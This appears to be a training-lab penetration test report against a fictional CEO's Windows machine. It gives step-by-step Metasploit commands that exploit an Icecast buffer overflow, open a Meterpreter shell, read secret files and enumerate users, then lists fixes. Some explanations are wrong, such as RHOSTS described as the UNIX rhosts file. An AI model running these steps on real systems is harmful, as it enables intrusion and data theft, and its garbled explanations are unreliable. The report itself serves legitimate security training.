

    GoodSecurity Penetration Test Report 

    Abdisalan-Firin@GoodSecurity.com

    DATE
    11/01/2021

 ### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploit two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.
       2.0 Findings

### Machine IP:
    192.168.0.20
### Hostname:
    MSEDGEWIN10
### Vulnerability Exploited:
    Exploit/windows/http/icecast_header

    Vulnerability Explanation:

The Vulnerability i found Icecast application running on 192.168.0.20 allows for a buffer overflow exploit and any attacker can remotely gain control of the victim’s system by overwriting the memory on the system utilizing the Icecast flaw, which writes past the end of a pointer array when receiving 32 HTTP headers. this will overwrite the saved instruction pointer and leave Icecast thinking one of the processor threads is still occupied by one of its methods; in reality, the running process is a malicious payload.

Some remote actions able to be executed are:

    File discovery
    Key logging 
    screen capture
    Privilege escalation to Administrator 
I also find this vulnerable to the following exploits:

    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

### Severity:

This exploit is very severe and Critical as it allows malicious actors to run any manor of arbitrary code on the host’s machine.

### Proof of Concept:

1. Perform a service and version scan using Nmap to determine which services are up and running: 

- nmap -sS -sV -O 192.168.0.20

    - nmap: allows you to scan your network and discover not only everything connected to it.
    - -sS: its for TCP SYN port scan.
    - -sV: it is determine the version of the service running on port. 
    - -O: is the Remote OS detection using TCP/IP.

After scanning networks for vulnerabilities, we can execute the exploits that we know an organization is vulnerable to.

    Using nmap to scan the system to see any port open
 

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
   
     searchsploit -t Icecast windows
<Result> (exploits/windows_x86/remote/16763.rb)

Now we’ll use a tool called SearchSploit to locally store a library of exploit information and the scripts used to execute the exploits.

    Icecast exploits

3. Start Metasploit and search for the Icecast module and load it for use.:
 
    - Msfconsole.
    
    - Search icecast.
    
    - Use 0.

- The Metasploit is a computer security that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. 
- MSFconsole provides a command line interface to access and work with the Metasploit.

    starting metasploit and searching icecast
 
 
 

 

4. Set the `RHOST` to the target machine and run.

    - set RHOSTS 192.168.0.20.
    - run.

-   Rhosts allows me to log in to a UNIX-based system from another computer on the same network.
-   The rhosts file contains a list of hosts and user names that determines who can log in to a system remotely without a password.

    Setting RHOST to IP adress

5. Search for the `secretfile.txt` on the target.

    - meterpreter > search -f *secret*.

OR
    
    - meterpreter > shell.

- Meterpreter allows me to remotely take over the compromised system, having control of the file system, collect sensitive information such as credentials and secret files.
- Shell is a software program that provides direct communication between you and the operating system or application, providing an environment to automate IT operations.

    The search of the secret 

6. Search for the `recipe.txt` on the target and download the file:
    
    - meterpreter > search -f *recipe*
    - meterpreter > cd 'C:\Users/IEUser/Documents
    - meterpreter > ls
    - meterpreter > cat Drinks.recipe.txt
    - meterpreter > cat user.secretfile.txt

    Search of the recipe
    
    
    

7. Use Meterpreter's local exploit suggester to find possible exploits.
    
    - meterpreter> run post/multi/recon/local_exploit_suggestor

The system was also found to be vulnerable to the following exploits:
    
    - exploit/windows/local/ikeext_service
    - exploit/windows/local/ms16_075_reflection

    Using meterpreter for local exploit
   

8. Run a Meterpreter post script that enumerates all logged on users.
    
    - run post/windows/gather/enum_logged_on_users
    
    
    Using meterpreter post script
  

9. Running the sysinfo command
 
    system info
 

 
 
 

### Overall Recommendations

Icecast exploit is old and the vulnerability can be fixed with a patch or Install the latest version of this and all other software.
Encrypt the files and folders that you want to keep a secret
Enable the windows firewall with rules to only explicitly allow traffic on needed ports.